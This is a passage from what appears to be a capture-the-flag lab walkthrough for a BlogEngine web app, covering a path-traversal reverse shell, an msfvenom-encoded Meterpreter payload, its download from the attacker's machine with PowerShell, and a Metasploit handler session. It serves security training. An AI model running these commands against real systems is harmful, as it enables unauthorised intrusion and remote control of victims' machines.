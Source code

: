     System.Net.Sockets.TcpClient

method your host IP and the port chosen in the netcat command.

In the BlogEngine WebApp edit the only post available and upload the file just created.

Now invoke the following path in the browser

    http://<ip>/?theme=../../App_Data/files

In the netcat terminal, you'll get the reverse shell.

Just do a whoami to understand the user.

## Windows Privilege Escalation

As suggested "You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session, and execute it manually!"

So let's create the reverse shell with msfvenom

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o reverse.exe

The ip will be the one of your machine and the port is one of your choice. Now we need to upload this file on the target machine. Let's spin up a Python server:

    python -m http.server

On the original shell we had we can run the following command now:

    powershell -c wget "http://<ip>:8000/reverse.exe" -outfile "reverse.exe"

You'll need to be on a writable directory so move to C:\\Windows\Temp

We are almost ready but first, let's spin up Metasploit on a different terminal

    msfconsole

Once started we need to obtain a reverse shell in meterpreter

    msf6 exploit(multi/handler) > use exploit/multi/handler
    [*] Using configured payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST 10.10.143.146
    LHOST => 10.10.143.146
    msf6 exploit(multi/handler) > set LPORT 4445
    LPORT => 4445
    msf6 exploit(multi/handler) > run

You'll have a meterpreter shell now.

With the sysinfo command, you'll be able to get the Windows Information.

Now we need to do more enumeration.

Download a winPEAS x86 exe and run the following command in the meterpreter

    upload winPEASx86.exe
